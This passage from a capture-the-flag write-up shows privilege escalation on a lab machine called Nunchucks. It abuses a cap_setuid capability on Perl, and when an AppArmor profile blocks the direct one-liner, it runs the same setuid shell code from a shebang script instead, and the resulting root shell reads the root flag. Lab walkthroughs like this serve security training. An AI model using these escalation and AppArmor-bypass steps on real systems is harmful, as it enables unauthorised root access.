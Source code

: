 ```text
david@nunchucks:/var/www/store.nunchucks$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

Using the provided exploit from GTFOBins does nothing:

```text
david@nunchucks:/tmp$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/tmp$
```

Why is this? Well it turns out the box has Apparmor enabled for Perl. Useful info [here](https://wiki.ubuntu.com/AppArmor) from Ubuntu on it's usage. If we look in /etc/apparmor.d as described in the article we see there is a profile for Perl:

```text
david@nunchucks:/tmp$ ls -lsa /etc/apparmor.d/usr.bin.*
4 -rw-r--r-- 1 root root 3202 Feb 25  2020 /etc/apparmor.d/usr.bin.man
4 -rw-r--r-- 1 root root  442 Sep 26 01:16 /etc/apparmor.d/usr.bin.perl
```

Looking at the file we can see it's blocking us, but we can bypass this by using a .pl file with the Perl shebang in it and made executable. A little info [here](https://www.geeksforgeeks.org/perl-use-of-hash-bang-or-shebang-line/) but it's simple enough.

## Root Flag

Echo the same commands from GTFOBins to a file on the box:

```test
david@nunchucks:/tmp$ echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > pencer.pl
```

Now make it executable then call it direct:

```test
david@nunchucks:/tmp$ chmod +x pencer.pl 
david@nunchucks:/tmp$ ./pencer.pl 
# id
uid=0(root) gid=1000(david) groups=1000(david)
# cat /root/root.txt
<HIDDEN>
```

And there we go. Another box rooted, see you next time.
